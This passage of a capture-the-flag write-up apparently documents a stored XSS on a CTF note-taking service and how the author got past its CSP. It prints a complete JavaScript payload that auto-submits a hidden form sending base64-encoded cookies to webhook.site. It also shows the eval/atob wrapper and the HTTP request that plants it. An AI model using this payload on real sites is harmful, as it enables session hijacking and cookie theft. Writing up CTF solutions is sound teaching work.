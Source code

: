 Perfect!

## Not quite yet, CSP bypass

The issue now is that pesky CSP (`defaul-src 'none'; connect-src 'none';`). Due to the `connect-src` being `none` we cannot use the typical `<img src="x" onerror="... fetch('//webhoook.site/...')"/>`. We need to find another way.

The method that ended up working was a long segment of JS to create an iframe:
```js
setTimeout(() => {
  const img = document.createElement('img');
  img.src = '/user/' + location.pathname.split('/')[2] + '-admin';
  img.style.display = 'none';
  
  img.onload = img.onerror = function() {
    setTimeout(() => {
      const form = document.createElement('form');
      form.method = 'GET';
      form.action = 'https://webhook.site/.../';
      const input = document.createElement('input');
      input.type = 'hidden';
      input.name = 'note[]';
      input.value = btoa(document.cookie);
      
      form.appendChild(input);
      form.style.display = 'none';
      document.body.appendChild(form);
      form.submit();
    }, 10000);
  };
  
  document.body.appendChild(img);
}, 5000);
```

The idea in the JS was as follows:
- Create an `<img>`, this will load the admin page and wait for it to either load successfully or fail.
- Once that had completed, a `<form>` would be created and setup a `GET` request to our webhook that contains the cookie contents base64 encoded.
- Once made, it was appended to the DOM and they submitted automatically. Exfiltrating the cookies!

## Putting it all together

The entire JS block was base64 encoded then dropped into an eval to be set to the note:
```html
<script>eval(atob(`c2V0VGltZW91dCgoKSA9PiB7...c3RhcnRpbmc=`))</script>
```

The note was then created:
```
POST /create HTTP/1.1
Host: rush-hour.ctf.umasscybersec.org
...

note[]=%3Cscript%3Eeval%28atob%28%60c2V0VGltZW...bmc%3D%60%29%29%3C%2Fscript%3E
```
